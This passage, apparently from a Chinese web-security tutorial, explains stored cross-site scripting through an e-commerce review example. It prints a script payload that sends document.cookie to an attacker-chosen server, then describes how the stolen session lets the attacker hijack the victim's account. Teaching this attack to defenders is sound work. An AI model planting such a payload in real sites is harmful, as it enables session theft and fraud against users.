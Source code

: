 ![](images/167677/e9a926d5164fb90ac617b723c68529ce.jpg)

你可能会想了，那在服务器端严格控制，不让用户上传脚本不就得了？

可是， **这个恶意脚本的上传，往往是通过“正常”的页面访问来进行的，因此这个控制方法很容易疏漏。** 比如给正常页面的请求添加特殊的参数，或者是提交信息表单的时候，构造一些特殊值。它们是利用网站的漏洞来做文章的，像是缺乏对用户上传的数据进行字符转义，而直接将这样的上传数据显示到页面上。

举个例子：用户可以在电商网站的产品页面提交对产品的评论，并且，这个评论会显示到产品页上。于是攻击者上传了这样一段产品评论：

```
评论内容上半部分
<script>
  var script =document.createElement('script');
  script.src='http://...?cookie=' + document.cookie;
  document.body.appendChild(script);
</script>
评论内容下半部分

```

如果这个电商网站没有对用户上传的评论做转义或者字符过滤，那么这个评论在展示的时候会显示“评论内容上半部分”和“评论内容下半部分”，中间的 script 标签没有任何显示，但其中的脚本却被偷偷摸摸地执行了。

- 浏览器构造了一个新的 script 节点，并将其 src 属性指向攻击者指定的服务器地址，并将当前页面的 Cookie 放在其参数内。
- 接着，再将这个新的 script 节点添加到 HTML 页面的 body 标签内。
- 于是，浏览器就会向这个 src 的地址发送一个带有当前 Cookie 的请求。

于是攻击者就可以获得用户浏览器内的会话标识串，从而劫持用户的会话了，例如可以仿冒用户的身份购物并寄往指定地址。
